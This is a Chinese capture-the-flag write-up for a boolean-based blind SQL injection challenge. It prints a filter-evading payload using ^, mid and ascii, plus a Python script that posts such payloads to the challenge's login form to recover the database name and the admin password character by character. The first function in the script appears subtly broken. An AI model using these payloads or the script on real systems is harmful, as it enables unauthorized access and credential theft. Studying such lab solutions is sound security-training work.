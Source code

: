 



## 3、**

<http://123.206.31.85:49167/>
flag格式：SKCTF{xxxxxxxxxxxxx}
hint：基于布尔的SQL盲注

这题简单，用户名是admin  尝试注入 有两种返回结果  username does not exist!和password error!

fuzz 后发现过滤了  =，空格、and、or都被过滤了，但是>、<、^没有被过滤，所以这里使用ascii盲注

payload:

```
username = admin'^(ascii(mid((password)from(1)))>1)%23
```

脚本如下

```
import requests
str_all="1234567890abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ {}+-*/="
url="http://123.206.31.85:49167/index.php"
r=requests.session()
 
def databasere():
    resutlt=""
    for i in range(30):
        fla = 0
        for j in str_all:
            playlod="admin'^(ascii(mid(database()from({})))<>{})^0#".format(str(i),ord(j))
            data = {
                "username": playlod,
                "password": "123"
            }
            s=r.post(url,data)
            print(playlod)
            if "error" in s.text:
                resutlt+=j
                print(resutlt)
            if fla == 0:
                break
def password():
    resutlt=""
    for i in range(40):
        fla=0
        for j in str_all:
            playlod = "admin'^(ascii(mid((password))from({})))<>{})^0#".format(str(i+1),ord(j))
            data = {
                "username": playlod,
                "password": "123"
            }
            s=r.post(url,data)
            print(playlod)
            if "error" in s.text:
                resutlt+=j
                fla=1
                print('**************************',resutlt)
        if fla==0:
            break
databasere()
password()
```
